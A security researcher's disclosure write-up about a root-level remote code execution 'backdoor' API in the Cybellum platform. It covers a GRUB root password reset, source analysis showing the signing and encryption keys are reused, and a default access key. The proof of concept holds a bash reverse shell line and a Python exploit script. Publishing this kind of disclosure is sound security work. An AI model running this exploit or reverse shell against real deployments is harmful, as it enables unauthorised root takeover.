




Take a glance of browser, I find Cybellum RCE
Take a glance of browser, I find Cybellum RCE
One day I visited my friend @Imweekend. He was working on scanning the vulnerability of IVI firmware with Cybellum(The Product Security Platform). This Platform is used to manage and validate SBOMs, detect and prioritize vulnerabilities, comply with regulations and manage incident response. This Platform is based on Browser/Server Architecture.
About Vendor
Cybellum is a company that provides product security solutions for device manufacturers in the automotive, medical and industrial sectors. It helps them manage cybersecurity and cyber compliance across the entire product lifecycle, from SBOM management to vulnerability management to incident response. LG Electronics acquired Cybellum, in 2021.
This platform is widely used throughout the world by OEMs(BMW,Nissan,Grate Wall etc.) 、Tier 1(Denso, Mobileye, Harmam etc.)、The Third Party Inspection Institution(CATARC, CAERI,CSTC,CEPREI etc.)
Interesting status
With a glance at the web page, which caught my eyes.
192.168.1.102:29000/api/tasks？access_key=123 return task status with exception run—subprocess bash /tmp/bffed366—d3dl—4f1e-bc65—9a839b714add/start. sh It looks like a normal task exception which execute failed, but the type excute_rce is interesting. RCE is the abbreviation of “remote code execute”, RCE is a type of security vulnerability that allows attackers to run arbitrary code on a remote machine. RCE on everything is a security researcher’s dream.
As a security researcher, we are sensitive and curious about the world. excute_rce sense looks like a backdoor api, so we decide to dig into it deeper. Cybellum is a commercial product. It’s a black box to us. We require more information to investigate whether it is backdoor or not.
Regcongize service
First use nmap to find whether other port is open.
Surprisingly, as a commercial product’s 22 (SSH) port is kept open. Login to the server requires a password. Failed to log in with the default password which is used on Web services of 443(https). Later, we use the hydra to crack the password with some wordlist, but still can’t get the correct password.
Come back to view other ports. Some of them are web applications without url path, and we got a lot of error.
Deployment method
It’s hard to make progress at outer, so we try to extract firmware for further analysis. First we need to figure out the system deployment method.
We found the image named cybellum.qcow2. Qcow2 is a file format for disk image files used by QEMU. It is an updated version of the Qcow2 format and supports AES encryption.
Now we know Cybellum uses QEMU to serve the platform. Next step is to modify the qcow2 disk image and add a backdoor account for SSH service.
Mount qcow2 disk image
qemu-nbd is QEMU Disk Network Block Device Server, which can be used to mount qcow2 image.
Enable NBD on the Host
1
modprobe nbd max_part=8
Connect the QCOW2 as network block device
1
qemu-nbd -c /dev/nbd1 ./cybellum.qcow2
Find The Virtual Machine Partitions

Partition is 1M BOST boot; Partition /dev/nbd1p2 ;the biggest partition is /dev/nbd1p3.
Mount the partition from the VM
mount /dev/nbd1p3 failed, because
unknown filesystem type 'crypto_LUKS'. According to the error informationcrypto_LUKS showis /dev/nbd1p3 is crypt.1
2
3└─# mount /dev/nbd1p3 /media/file
mount: /media/file: unknown filesystem type 'crypto_LUKS'.
dmesg(1) may have more information after failed mount system call.cryptsetup can be used to mount encryption partition. Without a password,we are stagnant again.
1
2
3
4# modprobe dm-crypt dm-mod
# cryptsetup open /dev/nbd1p3 test
Enter passphrase for /dev/nbd1p3:find encryption parameters
Before find a key,we need to know the encryption algorithm and key length.
cryptsetup luksDumpcan help us to dump the header information of a LUKS device.cryptsetup luksDump /dev/nbd1p3show ciper is aes-xts-plain64、key is 512 bits.1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44LUKS header information
Version: 2
Epoch: 5
Metadata area: 16384 [bytes]
Keyslots area: 16744448 [bytes]
UUID: 871011b5-f0cd-47d7-946c-a1dc6c356359
Label: (no label)
Subsystem: (no subsystem)
Flags: (no flags)
Data segments:
0: crypt
trueoffset: 16777216 [bytes]
truelength: (whole device)
truecipher: aes-xts-plain64
truesector: 512 [bytes]
Keyslots:
1: luks2
trueKey: 512 bits
truePriority: normal
trueCipher: aes-xts-plain64
trueCipher key: 512 bits
truePBKDF: argon2i
trueTime cost: 4
trueMemory: 945543
trueThreads: 4
trueSalt: 74 e4 f0 7d 4c 6f 9e dc 4a e4 6c 74 13 7c fa 90
true 37 b4 39 2e 9a 51 71 92 da c5 c8 c7 d7 a0 d7 5e
trueAF stripes: 4000
trueAF hash: sha256
trueArea offset:290816 [bytes]
trueArea length:258048 [bytes]
trueDigest ID: 0
Tokens:
Digests:
0: pbkdf2
trueHash: sha256
trueIterations: 121362
trueSalt: e9 a4 5f f5 b0 04 70 68 fd 9e d0 1e 10 90 05 18
true e0 64 03 b4 c2 56 e5 8e 6e 2a 91 d8 c6 6e 66 ed
trueDigest: 22 62 2a 43 6c f5 1b 36 88 b2 fb 7c ae 86 39 c1
true b2 27 a7 ab 94 12 d3 72 9b 24 e8 fa a1 e9 f9 c2
When I delicated to find the AES 512 key, @Imweekend found another way to get access to the system.
NOTICE: decrypt and modify image see next blog.
Another easy way to get in
convert qcow2 to vmdk
1
qemu-img convert -f qcow2 cybellum.qcow2 -O vmdk cybellum.vmdk
Use VMware Workstation to create new virtual machine with existing virtual disk(cybellum.vmdk)
Grub and character console are available
Open virtual machine, hold
Shiftduring loading Grub. Grub lacks protection. The next step is that we can reset the root password through grub.Print a lot of information during normal booting.

After boot finished, virtual graph console without show login conversion like other normal condition.
It indicate graph console is forbidden, but the virtual character console is still available. Use
ALT+F1-F6switch to other console.reset root password
Open virtual machine, hold
Shiftduring loading Grub. Go to submenuAdvcaned options for Ubuntu.You will then be prompted by a menu that looks something like this,continue enter to
recovery mode.Using the arrow keys scroll down to root and then hit Enter.
Now see a root prompt, something like this,set the user’s password with the
passwdcommand.get access of the OS
After reboot the system,and hit
ALT+2switch to character console, we are able to log in with the new password.
Analysis backdoor
According this keywordexecute_rce, we did some digging and we found a backdoor api /api/execute_rce. Uploading an encrypted zip file containing start.sh can achieve arbitrary code execution and obtain the system with root privilege.
Login into Ubuntu, using ss know 29000 port is hosted by python.
Grep the keyword execute_rce, source code at /usr/local/lib/python3.8/dist_packages/maintenance_server_microservic.

exexute_rce route path is /api/execute_rce.
1 | class ExecuteRCE: |
In maintenance_server_microservice has documentation.
1 | % tree -L 2 maintenance_server_microservice |
The document Maintenance Server API (1.0) onhttp://ip:29000/docs/ .
As the document show, The Maintenance Server is a service that expose an interface to the user that suppors the following operations:
- System install - allows deployment of a fresh system using supplied installation pack.
- System update - allows deployment of a new version of the system
- Restore database - allows a system database restore after it was backed-up using the backup functionality.
- RCE Execution - allows execution of a signed script on the machine (supplied by Cybellum).
- Update certificates - allows update of the TLS/SSL certificates of the system
RCE Execution is the target that allows execution of a signed script on the machine. The sign process may be secure or not. Next we try to analyze the sign process and find the sign key.
execute-rce API document available on http://ip:29000/docs/#operation/execute-rce.
Function api_execute_rce implement in apis/apis.py.
1 | def api_execute_rce(self): |
api_execute_rce get two parameters access_key and rce_file from frontend.

First, use validate_access_key(access_key) validate access key.
1 | def _validate_access_key(self, access_key): |
ACCESS_KEY_FILE_PATH link to /mnt/cybellum/maintenance_server/access_key.json, default access_key is 123.
1 | {"access_key":"123"} |
Second, in use _upack_file to use FileSigner.unpack_file validate and decrypt encrypted file.
1 | def _unpack_file(self, destination, file_name, unpacked_file_name): |
Third, according to unpack_file , 4 step to unpack file.
- Read the signature from the unpacked file.
- Load the public key
signature_public_key.pem, and validate the signature of encrypted file md5. - Read the encrypted key from the unpacked file.
- Read the encrypted file and decrypt it with symmetric_key
encryption_private_key.pem.
A packed file is constructed with three parts; signature segment, encryption parameter segment and encrypted data segment.
Finally, use ExecuteRCETask execute rce_file.
1 | class ExecuteRCETask(ExecutableTask): |
The private key under /mnt/cybellum/maintenance_server/keys directory.
- encryption_private_key.pem: signature private key and encryption private key.
- private_pass.txt: private key password.
- signature_public_key.pem: Validate the signature public_key.
Key reuse: signature and encryption use the same key, encryption_private_key.pem deploy to signature, also deploy to encrypt and decrypt file.
Once we get access to the host system, we get a signature and encryption key from the system, so we can write any shell code in start.sh and pack. The platform consider it legal, and the shell script will be executed. We implemented remote code execution successfully.
If signature and encryption use different keys, and keep the signature’s private key safe. It may be more acceptable only cybellum is able to call execute-rce with the private key.
Proof of concept
prepare reverse shell payload:
bash -i >& /dev/tcp/192.168.122.1/4444 0>&1"save to start.shcompress start.sh to rce.zip
signature and encryption zip file to rce.zip.packed.
1
2
3
4
5
6
7
8
9def sign_and_pack_file(destination,file_name,packed_file_name):
file_path = os.path.join(destination, file_name)
packed_file_path = os.path.join(destination, packed_file_name)
PRIVATE_ENCRYPTION_KEY_PASS = "maintenance_server/keys/private_pass.txt"
with open(PRIVATE_ENCRYPTION_KEY_PASS) as f:
private_encryption_key_pass = f.read().strip()
FileSigner.sign_and_pack_file(private_key_path="maintenance_server/keys/encryption_private_key.pem",private_key_pass=private_encryption_key_pass,input_file=file_path,signed_file_path=packed_file_path,public_encryption_key_path="maintenance_server/keys/signature_public_key.pem")
print('The file was signed successfully and was stored at {}'.format(packed_file_path)POST payload to
/api/execute_rce.1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24import requests
banner = '''
██████╗ ██ ╔██████ ██████╗ █████╗ ██████╗██╗ ██╗██████╗ ██████╗ ██████╗ ██████╗
██╔════╝ ██ ╚════║██ ██╔══██╗██╔══██╗██╔════╝██║ ██╔╝██╔══██╗██╔═══██╗██╔═══██╗██╔══██╗
██║ ██ ║██ ██████╔╝███████║██║ █████╔╝ ██║ ██║██║ ██║██║ ██║██████╔╝
██║ ██ ║██ ██╔══██╗██╔══██║██║ ██╔═██╗ ██║ ██║██║ ██║██║ ██║██╔══██╗
╚██████╗ ██ ╔██████╝ ██████╔╝██║ ██║╚██████╗██║ ██╗██████╔╝╚██████╔╝╚██████╔╝██║ ██║
╚═════╝ ██ ╚═════╝ ╚═════╝ ╚═╝ ╚═╝ ╚═════╝╚═╝ ╚═╝╚═════╝ ╚═════╝ ╚═════╝ ╚═╝ ╚═╝
'''
url = "http://192.168.1.102:29000/api/execute_rce"
files={'rce_file': open('E:/ing/cybellum/rce.zip.packed', 'rb')}
payloads = {"access_key":"123"}
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36'}
print(banner)
print("Cybellum Backdoor exploit Program")
response = requests.request("POST", url, data=payloads,headers=headers, files=files)
if "result_downloadable" in response.text:
print("Exploit success")
else:
print("Error")Get root shell
About Us
@delikley Security researcher @QAX StarV Security Lab.
@Imweekend Security researcher @XXXX Inspection Institution.
Timeline
- 2023-06-21 Contacting vendor through Email.
- 2023-06-26 Cybellum confirmed this issue.
- 2023-09-13 CVE RESERVED.
- 2023-10-09 Cybellum release of security advisory.
- 2024-02-18 release this security advisory.